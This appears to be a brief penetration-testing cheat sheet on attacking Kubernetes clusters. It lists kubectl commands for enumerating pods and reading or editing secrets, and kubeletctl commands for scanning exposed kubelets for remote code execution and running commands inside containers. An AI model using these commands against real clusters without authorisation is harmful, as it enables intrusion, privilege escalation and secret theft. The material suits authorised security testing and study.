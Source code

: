 # REQUIRED TOOL TO INTERACT WITH THE CLUSTER

## Download binary: https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux

## Download: curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64

### We can:

#### Interact with the cluster using kubectl
#### Read Kubernetes secrets
#### Do recon inside the cluster
#### Switch service accounts to escalate your privileges
#### Lateral movement into other workloads
#### Gain access to the Kubernetes nodes

## Note: If the user is in the microk8s group, we can issue kubectl commands with the microk8s.kubectl or "k0s kubectl" pretext.

### Example commands:

#### 1) kubectl get pods

#### 2) kubectl -A get pods

#### 3) kubectl get deployments -o wide

#### 4) kubectl get services

#### 5) kubectl get rs (Replica sets)

#### 6) kubectl edit secret NAME

#### 7) kubectl get secret SECRET -n NAMESPACE 

### For a detailed usage: we can do kubectl help or search online https://kubernetes.io/docs/reference/kubectl/

## If the kubernetes services are exposed to the internet, and anonymous access is allowed, we can do:

#### 1) kubeletctl --server IP_ADDRESS pods (Enumerate the pods)

#### 2) kubeletctl --server IP_ADDRESS scan rce (Check for pods vulnerable to RCE)

#### 3) kubeletctl --server IP_ADDRESS exec "COMMAND" -p POD -c CONTAINER
